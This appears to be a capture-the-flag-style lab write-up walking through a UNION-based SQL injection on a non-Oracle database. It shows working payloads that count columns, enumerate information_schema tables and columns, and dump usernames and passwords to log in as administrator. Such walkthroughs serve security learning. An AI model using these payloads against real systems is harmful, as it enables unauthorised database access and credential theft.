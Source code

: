 <img width="600" height="300" alt="Screenshot_6" src="https://github.com/user-attachments/assets/803c5a2b-6a9f-4513-b600-bc54c7274256" />
<img width="600" height="300" alt="Screenshot_7" src="https://github.com/user-attachments/assets/2da7c795-ad33-44db-bec4-0682a5095782" />
<img width="600" height="300" alt="Screenshot_8" src="https://github.com/user-attachments/assets/9f2efe06-b87e-41db-afb2-7794987f819c" />
<img width="600" height="300" alt="Screenshot_9" src="https://github.com/user-attachments/assets/314162d3-9c59-4d43-8d1b-2a05c9dae6e4" />


# Lab: SQL Injection Attack – Listing the Database Contents (Non-Oracle)

## 📝 Lab Summary
This lab involves exploiting a **SQL injection vulnerability** to enumerate database contents on a **non-Oracle** system.  
The goal is to extract the **username and password** of the administrator user and use them to log in.

---

## 🔑 Key Concepts Used
- **Finding the number of columns** via `UNION SELECT null,...`
- **Database schema enumeration** with `information_schema.tables` and `information_schema.columns`
- **Filtering results with WHERE clause**
- **Extracting credentials from an interesting table**

---

## 🚀 Step-by-Step Exploitation

### 1. Determine the number of columns
Inject into a vulnerable parameter with:
- ' UNION SELECT null, null--
     If successful → confirms 2 columns in the original query.
### 2. Enumerate all available tables

Query information_schema.tables to list tables:
- ' UNION SELECT table_name, null FROM information_schema.tables-- Look through the output for something interesting, usually a users table.
### 3. Enumerate columns of the chosen table
Query information_schema.columns for the users table:
' UNION SELECT column_name, null 
  FROM information_schema.columns 
  WHERE table_name='users'--
##### Typical results:
- username
- password
### 4. Extract usernames and passwords
' UNION SELECT username, password FROM users--
Among the results, locate the administrator credentials.
### 5. Use credentials to log in
Take the extracted administrator username and password, then authenticate through the application’s login page.


